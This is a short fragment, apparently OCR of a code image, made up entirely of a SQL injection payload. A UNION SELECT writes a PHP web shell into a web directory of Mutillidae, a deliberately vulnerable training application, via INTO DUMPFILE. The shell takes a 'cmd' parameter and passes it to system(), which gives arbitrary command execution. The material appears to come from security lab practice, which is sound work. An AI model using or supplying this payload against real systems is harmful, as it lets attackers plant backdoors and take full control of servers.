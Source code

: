test' UNION SELECT 
"<?php echo '<html><body><form method=\"GET\" name=\"' . basename(\$_SERVER['PHP_SELF']) . '\"><input type=\"TEXT\" name=\"cmd\" autofocus id=\"cmd\" size=\"80\"><input type=\"SUBMIT\" value=\"Execute\"></form><pre>'; if(isset(\$_GET['cmd'])) { system(\$_GET['cmd'] . ' 2>&1'); } echo '</pre></body></html>'; ?>", 
NULL,NULL,NULL,NULL,NULL,NULL 
INTO DUMPFILE '/var/www/html/mutillidae/classes/webshell1.php'-- 
